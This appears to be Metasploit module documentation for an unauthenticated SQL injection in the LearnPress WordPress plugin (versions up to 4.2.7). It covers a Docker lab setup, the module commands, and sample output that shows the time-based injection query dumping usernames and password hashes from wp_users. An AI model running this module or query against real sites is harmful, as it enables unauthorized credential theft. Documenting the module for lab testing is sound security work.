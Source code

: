 ## Vulnerable Application

The vulnerability affects the **LearnPress** plugin, version **4.2.7** and below,
allowing unauthenticated SQL injection via the `c_only_fields` and `c_fields` parameters.

### Pre-requisites:
- **Docker** and **Docker Compose** installed on your system.

### Setup Instructions:

1. **Download the Docker Compose file**:
   - Below is the content of the **docker-compose.yml** file to set up WordPress with the vulnerable LearnPress plugin and a MySQL database.

```yaml
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html
      - ./custom.ini:/usr/local/etc/php/conf.d/custom.ini

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:
```

2. **Add custom PHP configuration** (for plugin uploads):
   - Create a file named `custom.ini` in the same directory as `docker-compose.yml` with the following content:

```bash
upload_max_filesize = 64M
post_max_size = 64M
```

This increases the file size limits for uploading the LearnPress plugin.

3. **Start the Docker environment**:
   - In the directory where you saved the `docker-compose.yml` file, run the following command to start the services:

```bash
docker-compose up -d
```

4. **Install LearnPress Plugin**:
   - Download the vulnerable version of LearnPress:

```bash
wget https://downloads.wordpress.org/plugin/learnpress.4.2.7.zip
```

   - Install the plugin in your running WordPress instance:
     - Extract the plugin files and copy them to your WordPress container:

```bash
unzip learnpress.4.2.7.zip
docker cp learnpress wordpress:/var/www/html/wp-content/plugins/
```

   - Navigate to `http://localhost:5555/wp-admin` in your browser and activate the **LearnPress** plugin in the WordPress admin panel.

## Verification Steps

1. **Set up WordPress** with the vulnerable **LearnPress 4.2.7** plugin.
2. **Start Metasploit** using the command `msfconsole`.
3. Use the correct module for the vulnerability:

```bash
use auxiliary/scanner/http/wp_learnpress_c_fields_sqli
```

4. Set the target's IP and URI:

```bash
set RHOSTS <target_ip>
set TARGETURI /
```

5. **Run the module**:

```bash
run
```

6. **Verify the SQL Injection**:
   - After running the module, the SQL injection payload will attempt to retrieve or manipulate data from the WordPress database.

## Options

### COUNT
This option specifies the number of rows to retrieve from the database during the SQL injection attack.
For example, setting `COUNT` to 5 will retrieve 5 rows from the `wp_users` table.

## Scenarios

The following scenario demonstrates an SQL injection attack against a WordPress installation running
**LearnPress <= 4.2.7** on a Docker environment with MySQL.

### Step-by-step Scenario

```bash
msf auxiliary(scanner/http/wp_learnpress_c_fields_sqli) > run http://127.0.0.1:5555

[*] Performing SQL injection via the 'c_only_fields' parameter...
[*] {SQLi} Executing (select group_concat(LKzEL) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) LKzEL from wp_users limit 1) ssrDlly)
[*] {SQLi} Time-based injection: expecting output of length 44
[+] Dumped user data:
wp_users
========

    user_login  user_pass
    ----------  ---------
    chocapikk   $P$BPdY0XccQT2nvSXE8bjsn1CERoF7eJ.

[+] Loot saved to: /home/chocapikk/.msf4/loot/20240920003917_default_127.0.0.1_wordpress.users_803563.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/wp_learnpress_c_fields_sqli) > set action CVE-2024-8529
action => CVE-2024-8529
msf auxiliary(scanner/http/wp_learnpress_c_fields_sqli) > run http://127.0.0.1:5555

[*] Performing SQL injection via the 'c_fields' parameter...
[*] {SQLi} Executing (select group_concat(hhtd) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) hhtd from wp_users limit 1) mqRlJXbdH)
[*] {SQLi} Time-based injection: expecting output of length 44
[+] Dumped user data:
wp_users
========

    user_login  user_pass
    ----------  ---------
    chocapikk   $P$BPdY0XccQT2nvSXE8bjsn1CERoF7eJ.

[+] Loot saved to: /home/chocapikk/.msf4/loot/20240920004105_default_127.0.0.1_wordpress.users_099358.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

